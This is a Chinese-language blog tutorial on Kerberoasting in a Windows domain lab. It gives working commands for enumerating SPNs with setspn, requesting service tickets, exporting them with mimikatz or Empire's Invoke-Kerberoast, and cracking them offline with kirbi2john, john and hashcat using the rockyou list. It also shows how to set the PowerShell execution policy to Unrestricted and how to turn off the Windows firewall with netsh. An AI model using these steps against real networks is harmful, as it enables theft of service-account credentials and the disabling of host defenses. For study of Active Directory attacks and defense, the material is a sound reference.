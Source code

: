 ```yaml
---
title: 域渗透入门（四）Kerberoasting服务票据离线爆破密码
categories:
- windowsDomain
tags:
- windowsDomain
---
```

域渗透入门（四）Kerberoasting服务票据离线爆破密码

## 参考资料
- [域渗透——Kerberoasting](https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting/)
- [什么是kerberoasting](https://attack.stealthbits.com/cracking-kerberos-tgs-tickets-using-kerberoasting)
- [https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/](https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/)
- [https://blog.stealthbits.com/discovering-service-accounts-without-using-privileges/](https://blog.stealthbits.com/discovering-service-accounts-without-using-privileges/)

## 录制的视频教程
- [域渗透实践篇（五）](https://www.bilibili.com/video/BV1Dg4y1q7X6)
1. kerberoasting

## spn“服务主体名称”是什么
服务帐户利用SPN支持Kerberos身份验证。也就是说，当客户端需要访问sever提供的服务的时候，那么就需要使用spn查询有哪些服务。

这种spn扫描，是正常的，在内网中，客户端想要访问服务器的资源，都需要想DC域控查询服务主体名称。就好像上火车要查询列车编号一样。

## 如何查询spn

```
setspn -q */*			#列出域内的spn服务主体名称，这条命令向域控查询信息，所以需要有域控服务器
---
https://github.com/nidem/kerberoast		#这是脚本的下载地址
./GetUserSPNs.ps1		#使用脚本查询spn服务主体名称
---
klist
查看内存中的票据
---
通过spn，申请service ticket服务票据
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/Srv-DB-0day.0day.org:1433"
```
方法一（mimikatz导出票据，tgsrepcrack.py破解票据）：
```
导出申请的服务票据
mimikatz.exe "kerberos::list /export" exit
导出的票据后缀名kirbi
缺点：目标主机上传mimikatz，会被杀软删除掉，必须关闭防火墙
---
爆破服务票据
python tgsrepcrack.py test.txt 1.kirbi
遇到错误，执行失败。github上，tgsrepcrack.py这个脚本从python2升级到了python3，也许因此出了bug。
```
方法二（mimikatz导出票据，kirbi2john.py将导出的1.kirbi转换为hashcat可以破解的格式，使用hashcat破解）：
```
---
从kirbi文件中提取出Kerberos tickets
python /usr/share/john/kirbi2john.py 2-40a00000-jerry@MSSQLSvc~Srv-DB-0day.0day.org~1433-0DAY.ORG.kirbi > output.txt

output.txt的密码类型是Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4]
---
使用hashcat或者john the ripper，爆破output.txt 

john --format=krb5tgs output.txt --wordlist=/usr/share/wordlists/rockyou.txt
---
hashcat -m 13100 output.txt /usr/share/wordlists/rockyou.txt --force
```
方法三——Invoke-Kerberoast导出票据，hashcat破解：
```
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1

执行没有任何结果
import-module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | fl
提示没有AdminCount参数

---
Invoke-Kerberoast -OutputFormat Hashcat | fl
Invoke-Kerberoast -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation

```
## windows不允许执行powershell
运行powershell脚本时，遇到“无法加载文件，因为在此系统禁止执行脚本”

在powershell面板下输入，`Set-ExecutionPolicy Unrestricted`，再输入“Y”，即可运行ps脚本

## cmd关闭防火墙
`NetSh Advfirewall` `set` `allprofiles state off`
`Netsh Advfirewall show allprofiles`

netsh firewall set opmode mode=disable

## 遇到的问题
爆破服务票据密码的时候，py脚本提示
`ImportError: No module named pyasn1.type`

安装一下模块， `pip install pyasn1`

---
运行这条命令的时候`python tgsrepcrack.py  test.txt 1.kirbi`
提示：
```
  File "C:\python27\lib\ntpath.py", line 115, in splitdrive
    if len(p) > 1:
TypeError: object of type 'file' has no len()
AttributeError: 'file' object has no attribute 'rfind'
```
原因，作者将脚本从py2升级py3，脚本有bug无法正常执行。

